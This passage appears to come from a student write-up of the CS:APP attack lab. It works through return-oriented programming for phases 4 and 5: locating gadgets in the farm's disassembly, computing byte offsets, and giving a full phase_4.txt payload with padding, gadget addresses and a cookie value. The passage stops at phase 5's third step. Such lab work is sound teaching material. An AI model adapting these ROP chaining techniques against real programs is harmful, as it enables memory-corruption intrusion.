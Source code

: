```
0000000000401670 <getval_492>:
  401670:	b8 d7 83 58 c3       	mov    $0xc35883d7,%eax
  401675:	c3                   	retq   
``` 
* add offset `3` to address `401670`
  * result is `401673`
* so gadget 1 = `401673`
* gadget2 is `mov $rax, $rdi`
  * encoding: `48 89 c7`
  ```
  000000000040164e <getval_297>:
    40164e:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
    401653:	c3                   	retq   
  ```
  * add offset `1` to base address `40164e`
    * result: `40164f`
  * gadget 2 = `40164f`

This is what `phase_4.txt` will look like:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* buffer */
73 16 40 00 00 00 00 00 /* gadget 1, popq $rax */
f1 1e d6 5c 00 00 00 00 /* cookie value 0x5cd61ef1 */
4f 16 40 00 00 00 00 00 /* gadget 2 mov $rax,$rdi */
94 14 40 00 00 00 00 00 /* touch2 address 401494 */
```
## Phase 5
* $rsp = `0x556704a0`, cookie = `0x5cd61ef1`
* In phase 5 we have to do the following:
  * pad the buffer
  * save `%rsp` into `%rdi`
    * can find gadget anywhere in farm
  * save the address offset into `%rax`
    * can find gadget anywhere in farm
  * save the sum of the above to value to a register
    * We will have to look at functions between midfarm and end farm for these gadgets
  * call touch3 (same as phase 3)
  * cookie string (same as phase 3)
### Step 1
* `48 89 e0 c3 mov %rsp, %rax`
    ```
    00000000004016df <addval_161>:
      4016df:	8d 87 48 89 e0 c3    	lea    -0x3c1f76b8(%rdi),%eax
      4016e5:	c3                   	retq   
    ```
  * `4016df` + 2 = `4016e1`
  * reverse and pad: `e1 16 40 00 00 00 00 00`
### Step 2
* `48 89 c7 c3 mov %rax, %rdi`
    ```
    000000000040164e <getval_297>:
      40164e:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
      401653:	c3                   	retq   
    ```
  * `40164e` + 1 = `40164f`
  * reverse and pad: `4f 16 40 00 00 00 00 00`
### Step 3